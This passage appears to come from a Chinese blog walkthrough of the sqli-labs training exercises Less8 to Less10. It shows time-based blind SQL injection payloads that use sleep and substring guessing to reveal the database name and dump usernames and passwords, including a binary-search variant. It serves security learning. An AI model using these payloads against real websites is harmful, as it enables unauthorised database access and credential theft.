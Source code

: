 ## 0x09 Less8

输入`url/?id=1' and` `sleep(5)--+`存在延时注入。

爆破库`url/?id=1' and if(ord(substr((select database()),1,1))=115,1,sleep(5))--+`

接着爆破表、字段，最后爆破数据用`url/?id=1' and if(substr((select group_concat(concat_ws('-',username,password)) from security.users limit 0,1),1,1)='d',1,sleep(5))--+`

用bp来试着爆破一下数据Dumb-Dumb。<figure class="wp-block-image size-full">

<img loading="lazy" width="842" height="107" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-161.png" alt="" class="wp-image-2843" /></figure> 

## 0x0A Less9

题目是延时注入-单引号，

可以搭配二分法猜解`url/?id=1' and if(ascii(substr(database(),1,1))>110, 0, sleep(5))--+`

## 0x0B Less10

与Less9的区别就在于'->"，其他操作一致。
